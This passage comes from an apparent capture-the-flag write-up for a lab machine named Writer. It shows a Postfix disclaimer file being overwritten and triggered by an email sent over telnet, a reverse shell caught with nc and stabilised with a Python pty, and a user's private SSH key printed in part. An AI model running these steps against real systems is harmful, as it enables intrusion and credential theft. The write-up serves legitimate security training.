 Copy the disclaimer over the original one and send an email as kyle to root using telnet.

```
kyle@writer:~$ cp disclaimer /etc/postfix/disclaimer
kyle@writer:~$  telnet 127.0.0.1 25
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
220 writer.htb ESMTP Postfix (Ubuntu)
HELO writer.htb
250 writer.htb
MAIL FROM: kyle@writer.htb
250 2.1.0 Ok
RCPT TO: root@writer.htb
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
aaaaa

.
250 2.0.0 Ok: queued as E600B75B
```

We instantly get a reverse shell as john, which we upgrade again to stabilize it.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.182.107.
Ncat: Connection from 10.129.182.107:49266.
bash: cannot set terminal process group (89078): Inappropriate ioctl for device
bash: no job control in this shell
john@writer:/var/spool/postfix$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<fix$ python3 -c 'import pty;pty.spawn("/bin/bash")'
john@writer:/var/spool/postfix$ export TERM=xterm
export TERM=xterm
john@writer:/var/spool/postfix$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

john@writer:/var/spool/postfix$
```

Looking around we find johns private ssh key, which we use to log in in the next step, to get an even more stable and als encrypted connection and also for the groups to fully get loaded.

```
john@writer:/var/spool/postfix$ cat /home/john/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxqOWLbG36VBpFEz2ENaw0DfwMRLJdD3QpaIApp27SvktsWY3hOJz
wC4+LHoqnJpIdi/qLDnTx5v8vB67K04f+4FJl2fYVSwwMIrfc/+CHxcTrrw+uIRVIiUuKF
OznaG7QbqiFE1CsmnNAf7mz4Ci5VfkjwfZr18rduaUXBdNVIzPwNnL48wzF1QHgVnRTCB3
i76pHSoZEA0bMDkUcqWuI0Z+3VOZlhGp0/v2jr2JH/uA6U0g4Ym8vqgwvEeTk1gNPIM6fg
9xEYMUw+GhXQ5Q3CPPAVUaAfRDSivWtzNF1XcELH1ofF+ZY44vcQppovWgyOaw2fAHW6ea
TIcfhw3ExT2VSh7qm39NITKkAHwoPQ7VJbTY0Uj87+j6RV7xQJZqOG0ASxd4Y1PvKiGhke
tFOd6a2m8cpJwsLFGQNtGA4kisG8m//aQsZfllYPI4n4A1pXi/7NA0E4cxNH+xt//ZMRws
sfahK65k6+Yc91qFWl5R3Zw9wUZl/G10irJuYXUDAAAFiN5gLYDeYC2AAAAAB3NzaC1yc2
EAAAGBAMajli2xt+lQaRRM9hDWsNA38DESyXQ90KWiAKadu0r5LbFmN4Tic8AuPix6Kpya
SHYv6iw508eb/LweuytOH/uBSZdn2FUsMDCK33P/gh8XE668PriEVSIlLihTs52hu0G6oh
RNQrJpzQH+5s+AouVX5I8H2a9fK3bmlFwXTVSMz8DZy+PMMxdUB4FZ0Uwgd4u+qR0qGRAN
GzA5FHKlriNGft1TmZYRqdP79o69iR/7gOlNIOGJvL6oMLxHk5NYDTyDOn4PcRGDFMPhoV
0OUNwjzwFVGgH0Q0or1rczRdV3BCx9aHxfmWOOL3EKaaL1oMjmsNnwB1unmkyHH4cNxMU9
lUoe6pt/TSEypAB8KD0O1SW02NFI/O/o+kVe8UCWajhtAEsXeGNT7yohoZHrRTnemtpvHK
```